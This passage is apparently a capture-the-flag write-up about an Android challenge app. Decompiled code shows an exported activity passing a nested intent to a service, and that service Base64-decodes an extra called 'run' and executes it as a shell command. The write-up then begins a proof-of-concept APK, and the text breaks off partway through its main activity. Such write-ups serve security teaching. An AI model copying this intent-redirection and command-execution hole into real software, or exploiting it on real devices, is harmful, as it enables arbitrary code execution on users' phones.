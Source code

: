 ```java
    ...
17	public class HuntersPortal extends AbstractActivityC0156j {
       ...
24	   @Override
25	   public void onCreate(Bundle bundle) {
           ...
34	       Intent intent = getIntent();
35	       String action = intent.getAction();
36	       if (action != null && action.equals("ProHunter")) {
37	           textView.setText("This is the way of the Pro Hunters");
38	           startService((Intent) intent.getParcelableExtra("nextIntent"));
39	       }
40	   }
41	}
```
`HuntersService` service `onStartCommand()` function checks for an incoming intent with the extra `run` and decodes its Base64 string to execute it as a command. It starts a new thread to run the command, processes its output, and logs the results while showing a success toast.

```java
    ...
17	public class HuntersService extends Service {
91	   @Override
92	   public int onStartCommand(Intent intent, int i2, int i3) {
93	       Log.d("ill make sure i remove this in the production", "onStartCommand: ");
94	       if (intent != null && intent.getStringExtra("run") != null) {
95	           try {
96	               int i4 = 5;
97	               new Thread(new o(this, i4, Runtime.getRuntime().exec(new String(Base64.decode(intent.getStringExtra("run"), 0)).trim()))).start();
98	               return 1;
99	           } catch (IOException e2) {
                   ...
102	           }
103	       }
104	       return 1;
105	   }
106	}
```

Lets now create our poc apk to run a command.

```java
package com.example.hunterxsolution;

import android.content.Intent;
import android.os.Bundle;
import android.widget.Button;

import androidx.activity.EdgeToEdge;
import androidx.appcompat.app.AppCompatActivity;
import androidx.core.graphics.Insets;
import androidx.core.view.ViewCompat;
import androidx.core.view.WindowInsetsCompat;

public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        EdgeToEdge.enable(this);
        setContentView(R.layout.activity_main);
        ViewCompat.setOnApplyWindowInsetsListener(findViewById(R.id.main), (v, insets) -> {
            Insets systemBars = insets.getInsets(WindowInsetsCompat.Type.systemBars());
            v.setPadding(systemBars.left, systemBars.top, systemBars.right, systemBars.bottom);
```